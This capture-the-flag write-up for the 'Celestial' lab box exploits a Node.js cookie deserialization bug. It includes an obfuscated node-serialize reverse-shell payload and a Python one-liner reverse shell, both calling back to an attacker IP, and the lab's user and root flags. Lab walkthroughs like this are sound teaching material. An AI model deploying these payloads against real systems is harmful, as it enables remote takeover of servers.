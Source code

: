 Celestial
================

![title](title.png)

Solution
==============

User
---------
First we do a normal nmap scan
```
Host is up (0.28s latency).
Not shown: 999 closed ports
PORT     STATE SERVICE VERSION
3000/tcp open  http    Node.js Express framework
|_http-title: Site doesn't have a title (text/html; charset=utf-8).

```
So navigating to the webpage, we saw some texts that are displayed. So what's going on behind the scene? We can see there are request cookies.

![webpage](webpage.png)

so it's simply base64 encoded, we can see the cookie is some sort of JSON data.

![cookie](cookie.png)

From here, we can see that the data in our cookie are being processed and displayed on the webpage, so there might be some injection that we can perform from the cookie.

So a quick search about "node js cookie injection" for known bugs brought up this page https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/ which is, surprisingly, exactly what we want.

This is a deserialization bug, such as the cPickle library in Python. In summary of the exploitation, we serialize our payload and utilize the Immediately invoked function expression(IIFE) to call our function, thus when the application unserialize it, it would execute it.

We can use the script provided to craft a reverse shell payload and send it to the server. So here is our payload

```
{"rce":"_$$ND_FUNC$$_function (){ eval(String.fromCharCode(10,118,97,114,32,110,101,116,32,61,32,114,101,113,117,105,114,101,40,39,110,101,116,39,41,59,10,118,97,114,32,115,112,97,119,110,32,61,32,114,101,113,117,105,114,101,40,39,99,104,105,108,100,95,112,114,111,99,101,115,115,39,41,46,115,112,97,119,110,59,10,72,79,83,84,61,34,49,48,46,49,48,46,49,53,46,49,53,52,34,59,10,80,79,82,84,61,34,51,49,51,51,55,34,59,10,84,73,77,69,79,85,84,61,34,53,48,48,48,34,59,10,105,102,32,40,116,121,112,101,111,102,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,61,61,32,39,117,110,100,101,102,105,110,101,100,39,41,32,123,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,32,102,117,110,99,116,105,111,110,40,105,116,41,32,123,32,114,101,116,117,114,110,32,116,104,105,115,46,105,110,100,101,120,79,102,40,105,116,41,32,33,61,32,45,49,59,32,125,59,32,125,10,102,117,110,99,116,105,111,110,32,99,40,72,79,83,84,44,80,79,82,84,41,32,123,10,32,32,32,32,118,97,114,32,99,108,105,101,110,116,32,61,32,110,101,119,32,110,101,116,46,83,111,99,107,101,116,40,41,59,10,32,32,32,32,99,108,105,101,110,116,46,99,111,110,110,101,99,116,40,80,79,82,84,44,32,72,79,83,84,44,32,102,117,110,99,116,105,111,110,40,41,32,123,10,32,32,32,32,32,32,32,32,118,97,114,32,115,104,32,61,32,115,112,97,119,110,40,39,47,98,105,110,47,115,104,39,44,91,93,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,119,114,105,116,101,40,34,67,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,112,105,112,101,40,115,104,46,115,116,100,105,110,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,111,117,116,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,101,114,114,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,111,110,40,39,101,120,105,116,39,44,102,117,110,99,116,105,111,110,40,99,111,100,101,44,115,105,103,110,97,108,41,123,10,32,32,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,101,110,100,40,34,68,105,115,99,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,125,41,59,10,32,32,32,32,125,41,59,10,32,32,32,32,99,108,105,101,110,116,46,111,110,40,39,101,114,114,111,114,39,44,32,102,117,110,99,116,105,111,110,40,101,41,32,123,10,32,32,32,32,32,32,32,32,115,101,116,84,105,109,101,111,117,116,40,99,40,72,79,83,84,44,80,79,82,84,41,44,32,84,73,77,69,79,85,84,41,59,10,32,32,32,32,125,41,59,10,125,10,99,40,72,79,83,84,44,80,79,82,84,41,59,10))}()"}
```
Base64 encoding it and sending it to the server, we got a reverse shell.


![user_shell](user_shell.png)

`User: 9a093cd22ce86b7f41db4116e80d0b0f`

Root
----------
Just looking around the files, we can see a /home/sun/node_modules/.bin/mime sym link that belongs to root, the best part is we have write privilege to that file, so that means we can execute arbitrary code as root.

```
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((10.10.15.154,4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([/bin/sh,-i]);
```

And that gives us the root shell.


`Root: ba1d0019200a54e370ca151007a8095a`
